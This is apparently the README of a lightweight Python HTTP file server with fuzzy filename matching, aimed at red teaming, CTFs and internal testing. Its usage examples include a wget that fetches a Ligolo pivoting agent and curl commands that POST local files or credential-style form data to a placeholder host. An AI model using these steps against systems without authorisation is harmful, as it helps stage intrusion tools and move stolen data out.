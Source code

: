 # 🔥 fuzzy-httpserver

A lightweight, zero-dependency Python HTTP file server with fuzzy filename matching and automatic fallback directory listing. Serve files easily without requiring users to know exact filenames — great for red teams, internal tooling, and lazy typing 😎.

---

## 🚀 Features

- 🔍 Fuzzy and prefix-based filename matching
- 🧾 Server-side logs directory contents if no file is matched
- ⚙️ Supports custom port and directory configuration
- ✅ No external dependencies — plug-and-play
- 🐍 Written in pure Python 3
- 📤 Supports POST data requests
- 🎨 Colored server-side output for better readability
- 🖵 Shows IP addresses of key network interfaces at startup
- Shows the Size and MD5 Hash of Received File - Integrity Check

---

## New Features

- **Files over directories**: Automatically prioritizes files over directories when searching
- **Recursive search**: Searches through all subdirectories automatically
- **Case-insensitive matching**: Works with any case variation
- **Scoring system**: makes priority list based on number of matching characters
- **Multi-step filtering**: `/filename/filter1/filter2/filter3`

<img width="794" height="698" alt="image" src="https://github.com/user-attachments/assets/236c383f-50e2-4dee-9c10-dab1b6486591" />

 
## 📦 Installation

Install via pip:

```bash
pip install fuzzy-httpserver
````

---

## 🧪 Usage

Serve the current directory on the default port (8000):

```bash
fuzzy-httpserver
```

Serve a specific directory on a custom port:

```bash
fuzzy-httpserver -d /opt/tools -p 9001
```

### Example

```bash
wget http://<ip>:8000/ligolo-win
```

Even if the exact file is `ligolo-Agent-Windows-amd.exe`, it will still serve the file thanks to fuzzy matching. If nothing is found, you’ll get:

```
[!] File not found. Available files:

- chisel_windows
- payload_generator
```

Basically the list of files on that server directory

---

## 🛠 Command-Line Options

| Option              | Description                               |
| ------------------- | ----------------------------------------- |
| `-p`, `--port`      | Port to listen on (default: 8000)         |
| `-d`, `--directory` | Directory to serve (default: current dir) |

## 📨 POST Support

You can now send raw data via HTTP POST, and it will be saved on the server as a file. The filename will be prefixed with `fuzzy_post_data_` followed by the requested name.

### Example

```bash
curl --data @file.txt http://<ip>:8000/mydump.txt
#OR
curl --data "username=admin&password=1234" http://<ip>:8000/formdata.txt
```

---

## 🧠 Why?

Sometimes during internal testing, CTFs, or red teaming, we just want to serve files quickly — but can’t remember exact filenames. `fuzzy-httpserver` saves time by letting you guess loosely.

---

## 🧑‍💻 Author & Credits

Built with 💻 and ☕ by [PakCyberbot](https://pakcyberbot.com).

🔗 Connect with me:

* 🌐 Website: http://pakcyberbot.com
* Twitter/x: https://x.com/pakcyberbot
* GitHub: https://github.com/PakCyberbot
* LinkedIn: https://www.linkedin.com/in/pakcyberbot/
* Medium: https://medium.com/@pakcyberbot

---

## ✨ Contributions Welcome

Want to improve it? Found a bug? PRs and issues are welcome!
